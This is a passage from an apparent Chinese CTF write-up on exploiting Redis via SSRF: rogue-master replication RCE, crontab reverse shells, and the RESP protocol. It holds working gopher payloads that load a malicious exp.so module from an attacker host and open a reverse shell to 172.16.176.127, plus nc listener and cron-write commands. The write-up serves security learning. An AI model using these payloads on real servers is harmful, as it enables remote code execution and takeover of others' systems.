 
https://github.com/xmsec/redis-ssrf<br/> https://github.com/n0b0dyCN/redis-rogue-server<br/> 要进行主从复制RCE，就需要利用到这两个工具，第一个用于生成payload，也可以启动恶意服务，第二个主要是exp.so。注意需要将第二个工具exp.so导入到第一个工具下，也就是和rogue-server.py同目录，这里先开启一下`rogue-server.py` 用于伪装为主redis，它开启的端口为6666<br/>  

<br/>  

<br/> 修改ssrf-redis.py<br/>  

<br/>  

<br/>  

<br/> 运行一下<br/>  

<br/> 生成了payload，但无法利用<br/>  

<br/> 看了师傅们的WP，就手动去构造吧，然后再进行二次url编码（因为用到了curl）
1.  `gopher://0.0.0.0:6379/_auth%2520root%250d%250aconfig%2520set%2520dir%2520/tmp/%250d%250aquit` 1.  `#解码后即为` 1.  `gopher://0.0.0.0:6379/_auth root` 1.  `config set dir /tmp/` 1.  `quit` 1.  `//设置备份文件路径为/tmp/ 只有/tmp有权限 ,只需要有读权限即可，所以设置目录的时候要多试试` 1.  `gopher://0.0.0.0:6379/_auth%2520root%250d%250aconfig%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520172.16.176.127%25206666%250d%250aquit` 1.  `#解码后即为` 1.  `gopher://0.0.0.0:6379/_auth root` 1.  `config set dbfilename exp.so` 1.  `slaveof 172.16.176.127 6666` 1.  `quit` 1.  `#设置备份文件名为：exp.so` 1.  `gopher://0.0.0.0:6379/_auth%2520root%250d%250amodule%2520load%2520/tmp/exp.so%250d%250asystem.rev%2520172.16.176.127%25206663%250d%250aquit` 1.  `#解码后即为` 1.  `gopher://0.0.0.0:6379/_auth root` 1.  `module load /tmp/exp.so` 1.  `system.rev 172.16.176.127 6663` 1.  `quit` 1.  `#导入 exp.so ，反弹shell到172.16.176.127:6663` 
##### 0x05:Crontab执行命令反弹shell

前提要求:

在Ubuntu上没有复现成功，师傅们说是只能在Centos可以复现成功，这里记录一下命令
1.  `#攻击机先开启监听` 1.  `nc -lvnp 4444` 1.  `#连接redis，写入反弹shell` 1.  `redis-cli -h 192.168.66.132` 1.  `config set dir /var/spool/cron/` 1.  `config set dbfilename root` 1.  `save` 
## SSRF遇上Redis

在利用SSRF攻击Redis前，先要理解一下Redis的客户端和服务端的通信方式，以及数据发送的格式。这就涉及到一个RESP协议

##### 0x00:RESP协议

> 
redis客户端与服务端通信，使用RESP（REdis Serialization Protocal，redis序列化协议）协议通信，该协议是专门为redis设计的通信协议，但也可以用于其它客户端-服务器通信的场景。<br/> RESP可以用于序列化不同的数据类型，如：整型、字符串、数组…并且为错误提供专门的类型；客户端发送请求时，以字符串数组的作为待执行命令的参数。redis服务器根据不同的命令返回不同的数据类型。


RESP协议支持5种数据类型：
1.  简单字符串（`Simple Strings`） 1.  错误数据（`Errors`） 1.  整数（`Integers`） 1.  批量字符串（`Bulk Strings`） 1.  数组（`Arrays`） 
客户端请求服务器时，会以批量数据类型的数组进行请求封装<br/> 服务端发送响应给客户端时，根据命令实现的不同，返回相应的数据类型。<br/> 不同的数据类型根据请求/响应报文的第一个字节进行区分：

简单字符串以`+`开头<br/> 错误数据以`-`开头<br/> 整数以`:`开头<br/> 批量字符串以`$`开头<br/> 数组以`*`开头<br/> 每种类型的数据均以CRLF（\r\n）结束，通过数据的首字符区分类型

自己抓一个包看看客户端发送的格式就知道了
1.  `tcpdump port 6379 -w ./1.pcap` 
<br/> 十六进制转储看一下
